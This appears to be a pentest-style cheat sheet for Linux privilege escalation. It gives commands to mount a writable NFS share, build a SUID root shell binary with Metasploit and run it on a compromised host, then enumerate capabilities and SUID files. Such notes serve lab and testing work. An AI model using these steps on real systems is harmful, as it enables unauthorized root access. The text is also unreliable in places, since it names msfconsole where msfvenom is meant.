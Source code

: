 

---

# Linux Privilege Escalation

## NFS Exploit

To check if the attacker machine mount is possible:
```sh
cat /etc/exports
```

Use Nmap to check the NFS mount:
```sh
nmap --script=nfs-showmount 10.10.x.x
```
*(Note: (sync) means write)*

### To set up the mount point on a local machine and create a temporary directory:

1. On the local machine, create a temporary directory:
    ```sh
    mkdir /tmp/nfs
    ```

2. Mount the NFS share:
    ```sh
    sudo mount -o rw,vers=3 -t nfs 10.10.x.x:/tmp /tmp/nfs
    ```

3. Navigate to the `/tmp` directory.

### Create a Metasploit Linux exploit with SUID bit set:

1. On the local machine with root privileges, generate the exploit:
    ```sh
    msfconsole -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    ```

2. Give the SUID bit permission to the `shell.elf` file:
    ```sh
    chmod +s /tmp/nfs/shell.elf
    ```

### Execute the `shell.elf` file on the compromised machine:

1. Navigate to the compromised machine and execute the file:
    ```sh
    ./shell.elf
    ```

---

# Exploit Capabilities

## After logging into the compromised machine, check if the capabilities exist:

### Using LinePeas:

To check capabilities:
```sh
./linepeas
```

### Manual Approach:

1. To check the capabilities for SUID bit:
    ```sh
    getcap -r / 2>/dev/null
    ```

2. To find files with SUID bit:
    ```sh
    find / -perm /4000 2>/dev/null
    ```

3. To check the process capabilities:
    ```sh
    ps -aux | grep root
    ```

4. Check any process ID which is running as root:
    ```sh
    cat /proc/477/status | grep -i cap
    ```

5. Convert the hex value to ASCII value:
    ```sh
    capsh --decode=000003ffffffff
    ```

### Use GTFOBins to Exploit:

---

